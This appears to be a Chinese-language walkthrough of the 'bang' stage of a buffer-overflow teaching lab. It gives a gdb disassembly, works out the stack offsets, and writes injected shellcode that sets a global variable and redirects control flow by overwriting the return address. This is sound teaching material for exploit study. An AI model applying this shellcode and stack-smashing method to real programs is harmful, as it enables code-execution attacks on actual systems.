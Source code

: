 ## bang

### 攻击思路

本题不仅带参，而且还需要构建若干条指令来修改全局变量 global_value。
```
(gdb) disassemble bang
Dump of assembler code for function bang:
   0x08048d60 <+0>:     push   %ebp                # bang 入口地址
   0x08048d61 <+1>:     mov    %esp,%ebp
   0x08048d63 <+3>:     sub    $0x8,%esp           # 开辟栈空间，8 字节
   0x08048d66 <+6>:     movl   $0x2,(%esp)
   0x08048d6d <+13>:    call   0x80489a0 <entry_check>
   0x08048d72 <+18>:    mov    0x804a1dc,%eax
   0x08048d77 <+23>:    cmp    0x804a1cc,%eax

   # 需要将 0x804a1dc 和 0x804a1cc 处存的值比较
   # 由上阶段分析可知 0x804a1cc 存储的即为我们的 cookie 值
   # 通过 gdb 查看 0x804a1dc 的内容
   # (gdb) x/x  0x804a1dc
   # 0x804a1dc <global_value>:       0x00000000
   # 发现其存储内容即为我们的目标全局向量 global_value，初始值为 0
   # 所以，我们需要构造指令将全局变量 global_value 修改为我们的 cookie 值

   0x08048d7d <+29>:    je     0x8048da0 <bang+64>
   0x08048d7f <+31>:    mov    %eax,0x4(%esp)
   0x08048d83 <+35>:    movl   $0x8049a0b,(%esp)
   0x08048d8a <+42>:    call   0x8048764 <printf@plt>
   0x08048d8f <+47>:    movl   $0x0,(%esp)
   0x08048d96 <+54>:    call   0x80487a4 <exit@plt>
   0x08048d9b <+59>:    nop
   0x08048d9c <+60>:    lea    0x0(%esi,%eiz,1),%esi
   0x08048da0 <+64>:    mov    %eax,0x4(%esp)
   0x08048da4 <+68>:    movl   $0x8049870,(%esp)
   0x08048dab <+75>:    call   0x8048764 <printf@plt>
   0x08048db0 <+80>:    movl   $0x2,(%esp)
   0x08048db7 <+87>:    call   0x8048ae0 <validate>
   0x08048dbc <+92>:    jmp    0x8048d8f <bang+47>
End of assembler dump.
```
总结一下，我们需要自己实现一段代码，让 0x804a1dc 处的值修改为我们的 cookie 0x46110021，然后修改返回地址，让程序跳转到我们的代码处执行，最后跳转到 bang 函数。

### 攻击过程

由于字符数组首地址为 -0xc(%ebp)，要修改的返回地址在 +0x4(%ebp)，所以，我们攻击的 payload 代码部分最多（12+4+4）=20字节，其中最后 4 字节修改到返回地址，让它跳转到 payload 代码开始（即字符数组首地址 -0xc(%ebp)=0xffffb4dc 处）。首先，实现修改 global_value 的汇编代码，代码设计如下，内容很简单。
```
# 版本 1    ->注意反汇编二进制代码不能太长，大于 16 字节，则无法插入返回地址
mov 0x804a1cc,%eax         # 我们的 cookie 值
mov %eax,0x804a1dc         # 修改 global_value
push $0x08048d60           # bang 函数的入口地址
ret                        # 返回 bang

# 版本 2    ->发生错误 Error: too many memory references for `mov'，不能在一条 mov 指令中引用两个内存位置
mov 0x804a1cc,0x804a1dc    # 修改 global_value 为我们的 cookie 值
push $0x08048d60           # bang 函数的入口地址
ret                        # 返回 bang

# 版本 3    ->最终版本
mov $0x46110021,%eax       # 直接把 cookie 的值赋给 global_value
mov %eax,0x804a1dc
push $0x08048d60           # bang 函数的入口地址
ret                        # 返回 bang
```